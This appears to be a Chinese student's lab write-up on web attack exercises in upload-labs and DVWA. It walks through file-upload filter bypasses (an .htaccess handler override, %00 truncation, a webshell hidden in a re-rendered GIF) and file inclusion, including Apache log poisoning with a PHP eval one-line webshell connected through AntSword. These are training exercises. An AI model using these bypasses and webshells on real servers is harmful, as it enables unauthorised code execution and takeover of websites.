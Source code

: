 ## 1.文件上传

- 客户端绕过练习。

  浏览器按F12打开控制台，再按F1禁用JS代码

  浏览器控制台直接删掉前端form标签的事件

  先上传符合白名单格式的文件类型，然后用burp抓包改成php文件即可绕过限制

- 服务端黑名单绕过：.htaccess 文件绕过。

  使用.htaccess文件前提条件
  1.mod_rewrite模块开启
  2.AllowOverride All

  

  首先将.htaccess文件上传，使当前目录所有的文件都用php解析，内容如下

  <FilesMatch "s.jpg">
  Sethandler application/x-httpd-php
  </FilesMatch>

  <IfModule mime_module>
  SetHandler application/x-httpd-php
  </IfModule>

  之后再上传s.jpg即可绕过限制

- 服务端白名单绕过：%00 截断绕过，要求虚拟机中搭建实验环境，分别实现 GET、POST 方法的绕过。

  GET 搭建好环境之后先上传文件s.jpg，然后用burp抓包，在upload后面添加1.php%00即可上传成功

  ![1](C:\Users\七号程序员詹姆师\Desktop\week9\1.png)

  ![2](C:\Users\七号程序员詹姆师\Desktop\week9\2.png)

  POST 先上传文件s.jpg，然后用burp抓包，在upload后面添加2.php%00，同时对%00进行URL解码，即可上传成功

  ![3](C:\Users\七号程序员詹姆师\Desktop\week9\3.png)

  ![4](C:\Users\七号程序员詹姆师\Desktop\week9\4.png)

- 二次渲染绕过。

  首先选择gif类型的图片，上传之后，将二次渲染的图片下载下来，在010Editor将上传前后的图片进行比对。找到二次渲染没有变动的位置，添加一句话木马然后上传，复制图片链接，用蚁剑连接打开，成功getshell

![5](C:\Users\七号程序员詹姆师\Desktop\week9\5.png)

## 2.文件包含

- DVWA 环境下包含其他目录的任意 3 个文件，要求使用相对路径。

![6](C:\Users\七号程序员詹姆师\Desktop\week9\6.png)

![7](C:\Users\七号程序员詹姆师\Desktop\week9\7.png)

![8](C:\Users\七号程序员詹姆师\Desktop\week9\8.png)

- 远程文件包含。

将s.txt绕过限制，上传到upload-labs，复制图片链接，在dvwa靶场page后粘贴链接访问即可完成远程文件包含

![9](C:\Users\七号程序员詹姆师\Desktop\week9\9.png)

- 中间件日志包含绕过，要求使用蚁剑连接成功。

先进行对文件夹和目录的提权

![10](C:\Users\七号程序员詹姆师\Desktop\week9\10.png)

然后在dvwa靶场page后访问<?php eval(@$_POST['a']);?>   用burp抓包，将URL编码修改为原字符

在dvwa靶场page后访问/var/log/apache2/access.log，复制链接和cookie，连接蚁剑

![11](C:\Users\七号程序员詹姆师\Desktop\week9\11.png)

